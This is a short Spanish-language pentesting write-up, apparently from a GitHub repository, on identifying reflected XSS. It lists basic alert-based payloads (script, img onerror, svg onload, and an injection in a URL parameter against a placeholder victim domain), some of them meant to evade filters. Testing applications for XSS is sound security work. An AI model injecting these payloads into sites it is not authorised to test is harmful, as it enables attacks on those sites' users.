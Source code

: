 <h1>🛠 Write-up: Explotación de XSS en Aplicaciones Web</h1>

<p>Este write-up cubre los pasos básicos para identificar y explotar una vulnerabilidad de Cross-Site Scripting (XSS) en una aplicación web.</p>

<h2>📌 Paso 1: Identificar la vulnerabilidad XSS</h2>
<p>Para saber si una página es vulnerable a XSS, debemos comprobar si nuestra entrada es reflejada en la web sin ser sanitizada.</p>
<pre><code>Ejemplo: Ingresamos &lt;b>Hola&lt;/b> en un campo de búsqueda y si aparece en negrita en la respuesta, puede ser vulnerable.</code></pre>
<img src="https://github.com/tuusuario/tuRepositorio/paso1.png" alt="Verificación de entrada reflejada" width="450" height="200">

<h2>📌 Paso 2: Probar con la etiqueta estándar de XSS</h2>
<p>El siguiente paso es intentar ejecutar JavaScript en la página inyectando un <code>script</code> básico.</p>
<pre><code>&lt;script>alert("XSS")&lt;/script></code></pre>
<p>Si el mensaje de alerta aparece en la página, entonces la vulnerabilidad está confirmada.</p>
<img src="https://github.com/tuusuario/tuRepositorio/paso2.png" alt="Ejemplo de alerta XSS" width="450" height="200">

<h2>📌 Paso 3: Probar con diferentes payloads</h2>
<p>Algunas aplicaciones pueden bloquear ciertas cadenas, por lo que debemos probar distintos payloads para evadir filtros.</p>
<pre><code>&lt;img src=x onerror=alert("XSS")>
'"&gt;&lt;script>alert("XSS")&lt;/script>
&lt;svg onload=alert("XSS")></code></pre>
<p>Si alguno de estos ejecuta código en la web, la aplicación es vulnerable.</p>
<img src="https://github.com/tuusuario/tuRepositorio/paso3.png" alt="Payloads XSS exitosos" width="450" height="200">

<h2>📌 Paso 4: Probar XSS en la URL</h2>
<p>Algunas páginas reflejan parámetros en la URL, lo que permite inyecciones XSS directas.</p>
<pre><code>http://victima.com/buscar.php?q=&lt;script>alert("XSS")&lt;/script></code></pre>
<p>Si la alerta se ejecuta, significa que la página es vulnerable a XSS reflejado.</p>
<img src="https://github.com/tuusuario/tuRepositorio/paso4.png" alt="Ejemplo de XSS en URL" width="450" height="200">

<h2>🎯 Conclusión</h2>
<ul>
    <li>🔹 Identificamos si una página es vulnerable a XSS observando si refleja nuestra entrada.</li>
    <li>🔹 Probamos con <code>&lt;script>alert("XSS")&lt;/script></code> para validar la vulnerabilidad.</li>
    <li>🔹 Probamos diferentes payloads para evadir restricciones.</li>
    <li>🔹 Exploramos inyecciones XSS en la URL para encontrar más vectores de ataque.</li>
</ul>
<p>Esta técnica es crucial en pentesting web para descubrir fallos de seguridad en aplicaciones. 🚀</p>
